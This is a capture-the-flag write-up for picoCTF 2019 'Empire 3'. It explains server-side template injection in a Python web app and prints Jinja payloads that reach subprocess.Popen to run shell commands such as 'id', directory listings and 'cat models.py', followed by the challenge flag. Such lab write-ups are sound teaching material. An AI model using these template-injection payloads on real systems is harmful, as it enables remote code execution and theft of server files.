








## Empire 3 (450)

#### Description
> Agent 513! One of your dastardly colleagues is laughing very sinisterly! Can you access his todo list and discover his nefarious plans? https://2019shell1.picoctf.com/problem/49865/ (link) or http://2019shell1.picoctf.com:49865

#### Hint
> Pay attention to the feedback you get.

> There is *very* limited filtering in place - this to stop you from breaking the challenge for yourself, not for you to bypass.

> The database gets reverted every 2 hours if you do break it, just come back later

#### Solution
SSTI again. But this time, the flag is not in the env variables.




To get flag, we need RCE (Remote Code Execution).
[Read more](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

To get RCE, we inject this:




Then find the index of `<class 'subproces.Popen'>`. It is 287.




Then we can get RCE with this payload:
```python
{{''.__class__.mro()[1].__subclasses__()[287]('id',shell=True,stdout=-1).communicate()[0].strip().decode('utf-8')}}
```


```python
{{''.__class__.mro()[1].__subclasses__()[287]('ls -la',shell=True,stdout=-1).communicate()[0].strip().decode('utf-8')}}
```



```python
{{''.__class__.mro()[1].__subclasses__()[287]('cd app; ls -la',shell=True,stdout=-1).communicate()[0].strip().decode('utf-8')}}
```



```python
{{''.__class__.mro()[1].__subclasses__()[287]('cd app; cat models.py',shell=True,stdout=-1).communicate()[0].strip().decode('utf-8')}}
```




#### Flag
`picoCTF{cookies_are_a_sometimes_food_e53b6d53}`
